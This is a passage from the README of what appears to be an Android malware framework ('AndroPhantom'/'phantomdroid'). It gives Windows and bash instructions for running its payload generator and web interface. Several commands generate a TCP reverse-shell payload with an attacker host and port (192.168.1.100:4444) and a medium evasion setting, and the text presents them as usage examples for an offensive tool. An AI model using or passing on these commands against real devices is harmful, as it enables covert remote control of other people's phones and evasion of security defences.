 #### Option C: Web Interface
```bash
# Start web interface
python core/web_interface.py

# Open browser and go to:
# http://localhost:8080
```

## 🖥️ Windows-Specific Instructions

### Using PowerShell
```powershell
# Navigate to framework directory
cd "d:\VS Code\AndroPhantom"

# Install dependencies
pip install -r requirements.txt

# Run main script
python -c "
import subprocess
import sys
subprocess.run([sys.executable, 'core/payload_generator.py', '--help'])
"

# Or run individual modules
python core/payload_generator.py --type tcp_reverse --lhost 192.168.1.100 --lport 4444
```

### Using Command Prompt
```cmd
cd "d:\VS Code\AndroPhantom"
python core\payload_generator.py --type tcp_reverse --lhost 192.168.1.100 --lport 4444
```

## 🎮 Usage Examples

### 1. Generate TCP Reverse Shell
```bash
# Interactive mode
./phantomdroid.sh
# Select option 1, then follow prompts

# Command line mode
python core/payload_generator.py \
    --type tcp_reverse \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --evasion medium
```
